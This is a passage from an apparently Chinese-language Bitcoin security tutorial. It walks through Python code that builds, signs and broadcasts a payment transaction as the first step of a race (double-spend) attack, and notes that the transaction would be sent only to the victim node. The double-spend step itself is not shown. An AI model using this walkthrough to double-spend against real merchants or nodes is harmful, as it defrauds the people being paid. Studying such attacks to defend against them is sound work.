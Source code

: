 通过选择未花费的交易来构建交易输入，这些交易将满足所需的交易价值（0.1 BTC）和交易费用。

代码中的`while`循环仅在创建足够的输入值以满足输出值和交易的最低交易费用之后终止。`delta_fee`表示满足交易费用所需的额外费用。如果`delta_fee`为正值，则从`value_out`中扣除`delta_fee`，否则将其添加：

```
value_in = 0 
value_out = sum([vout.nValue for vout in tx.vout]) 
unspent = sorted(rpc.listunspent(1), key=lambda x: x['amount']) 
while (value_in - value_out) / len(tx.serialize()) < feeperbyte1: 

    delta_fee = math.ceil((feeperbyte1 * len(tx.serialize())) - (value_in - value_out)) 

    if change_txout.nValue - delta_fee > dust_amount: 
        change_txout.nValue -= delta_fee 
        value_out -= delta_fee 
```

如果输入值小于输出值，则选择一个新的未花费交易输出进行花费。为新选择的未花费输出创建一个交易输入，并将金额添加到交易输出的找零中。每次更新`scriptSig`以更新交易大小时都要签署交易：

```
    if value_in - value_out < 0: 
        new_outpoint = unspent[-1]['outpoint'] 
        new_amount = unspent[-1]['amount'] 
        unspent = unspent[:-1] 

        print('Adding new input %s:%d with value %s BTC' % \ 
        (b2lx(new_outpoint.hash), new_outpoint.n, 
        str_money_value(new_amount))) 

        new_txin = CMutableTxIn(new_outpoint, nSequence=tx1_nSequence)
         tx.vin.append(new_txin) 

        value_in += new_amount 
        change_txout.nValue += new_amount 
        value_out += new_amount 

        r = rpc.signrawtransaction(tx) 
        assert(r['complete']) 

        tx.vin[-1].scriptSig = r['tx'].vin[-1].scriptSig 
```

在将交易发送到网络之前，交易最终再次签名。在竞争攻击中，此交易理想情况下仅发送给受害节点。在本示例中，我们已广播了交易，因为我们将通过为双重花费交易创建更高的优先级来替换此交易：

```
r = rpc.signrawtransaction(tx) 
assert(r['complete']) 
tx = CMutableTransaction.from_tx(r['tx']) 

print('Payment raw transaction %s' % b2x(tx.serialize())) 
print('Payment raw transaction size: %.3f KB, fees: %s, %s BTC/KB' % \ 
             (len(tx.serialize()) / 1000, 
              str_money_value(value_in-value_out), 
              str_money_value((value_in-value_out) / len(tx.serialize()) * 1000))) 

txid = rpc.sendrawtransaction(tx) 
print('Sent payment with txid: %s' % b2lx(txid)) 
```
